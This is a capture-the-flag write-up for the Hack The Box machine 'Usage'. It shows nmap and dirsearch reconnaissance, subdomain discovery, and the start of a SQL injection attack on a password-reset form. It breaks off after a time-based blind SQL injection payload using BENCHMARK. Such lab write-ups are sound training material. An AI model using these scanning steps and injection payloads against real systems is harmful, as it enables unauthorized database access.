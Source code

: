 # Usage Write-up

<img src="https://labs.hackthebox.com/storage/avatars/23e804513a47e8f20bc865d0419946e1.png" width="200" height="200">

## Nmap

`nmap -sC -sV -p- usage.htb`

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
    |_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
    80/tcp open  http    nginx 1.18.0 (Ubuntu)
    |_http-title: Daily Blogs
    |_http-server-header: nginx/1.18.0 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

`nmap -sC -sV -p- usage.htb`

    PORT      STATE    SERVICE        VERSION
    22/tcp    open     ssh            OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
    |_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
    80/tcp    open     http           nginx 1.18.0 (Ubuntu)
    |_http-title: Did not follow redirect to http://usage.htb/
    |_http-server-header: nginx/1.18.0 (Ubuntu)
    2403/tcp  filtered taskmaster2000
    3814/tcp  filtered neto-dcs
    4117/tcp  filtered hillrserv
    5902/tcp  filtered vnc-2
    8045/tcp  filtered unknown
    13399/tcp filtered unknown
    17530/tcp filtered unknown
    17551/tcp filtered unknown
    20279/tcp filtered unknown
    20295/tcp filtered unknown
    20541/tcp filtered unknown
    21060/tcp filtered unknown
    22856/tcp filtered unknown
    39584/tcp filtered unknown
    41538/tcp filtered unknown
    43643/tcp filtered unknown
    44553/tcp filtered rbr-debug
    58049/tcp filtered unknown
    58201/tcp filtered unknown
    58432/tcp filtered unknown
    58715/tcp filtered unknown
    58989/tcp filtered unknown
    64790/tcp filtered unknown
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Add `usage.htb` to `/etc/hosts`

## Dirsearch

`python3 dirsearch.py -u http://usage.htb/ --exclude-status 403,404,400,401,503 -o dir`

    Target: http://usage.htb/
    
    [07:05:38] Starting:                                                                                                                  
    [07:07:13] 302 -  334B  - /dashboard/  ->  http://usage.htb/login           
    [07:08:21] 200 -   24B  - /robots.txt                                       
                                                                                 
    Task Completed                                                                                                                        
                                         
http://usage.htb

![image](https://github.com/zer00d4y/writeups/assets/128820441/3483821e-2005-4105-aabf-409e5547619e)

Create accaount and login

![image](https://github.com/zer00d4y/writeups/assets/128820441/2c090840-9d55-4309-8c41-275ec38baf12)

In the source page we found `admin.usage.htb` subdomain

![image](https://github.com/zer00d4y/writeups/assets/128820441/d7bf8248-0170-465e-bbed-da9b7542902b)

Add `admin.usage.htb` to `/etc/hosts`

http://admin.usage.htb

![image](https://github.com/zer00d4y/writeups/assets/128820441/769b529d-c707-4708-b870-cf16138a1efa)

## SQLmap

Let's try to reset the password and save the request to Burp

![image](https://github.com/zer00d4y/writeups/assets/128820441/b7181ba7-3777-45a9-8af2-93fbc4dcf724)

    ' AND 4720=BENCHMARK(5000000,MD5(0x4866544a))-- SwMa---

